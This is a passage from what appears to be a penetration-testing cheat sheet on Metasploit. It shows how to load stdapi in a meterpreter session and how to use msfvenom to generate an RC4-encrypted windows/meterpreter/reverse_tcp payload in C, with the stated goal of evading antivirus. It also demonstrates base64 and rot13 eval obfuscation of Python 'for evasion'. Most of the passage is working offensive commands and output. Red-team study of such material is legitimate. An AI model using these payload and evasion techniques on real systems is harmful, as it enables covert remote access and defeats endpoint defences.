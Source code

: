 ```bash
set AutoVerifySession false
```

When you connect to the target, make sure that you load the stdapi to achieve full shell functionality:

```bash
meterpreter> load stdapi
```

@Karmaz95

## Encrypted Meterpreter Payloads:

Metasploit Framework Encryption Formats:

```bash
$ msfvenom -l encrypt

Framework Encryption Formats [--encrypt <value>]
================================================

Name
----

aes256
base64
rc4
xor
```

The syntax below generates a windows/meterpreter/reverse_tcp that is encrypted with RC4. It is also generated in C format, so that you can build your own loader in C/C++.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key supersecretkey -f c
```

Although antivirus isn’t good at scanning encrypted shellcode statically, run-time monitoring is still a strong line of defense. It is easy to get caught after you decrypt and execute it.

## Obfuscated Python for Evasion:

Resource: ```https://development-tools.net/python-obfuscator/```

Example Script:

```python
#!/usr/bin/env python3
print("Gotcha!")
```

Results:

```python
# Python code obfuscated by www.development-tools.net 
 
import base64, codecs
magic = 'IyEvdXNyL2Jpbi'
love = '9yoaLtpUy0nT9h'
god = 'MwpwcmludCgiR2'
destiny = '90L2uuVFVcPt=='
joy = '\x72\x6f\x74\x31\x33'
trust = eval('\x6d\x61\x67\x69\x63') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x6c\x6f\x76\x65\x2c\x20\x6a\x6f\x79\x29') + eval('\x67\x6f\x64') + eval('\x63\x6f\x64\x65\x63\x73\x2e\x64\x65\x63\x6f\x64\x65\x28\x64\x65\x73\x74\x69\x6e\x79\x2c\x20\x6a\x6f\x79\x29')
eval(compile(base64.b64decode(eval('\x74\x72\x75\x73\x74')),'<string>','exec'))
```
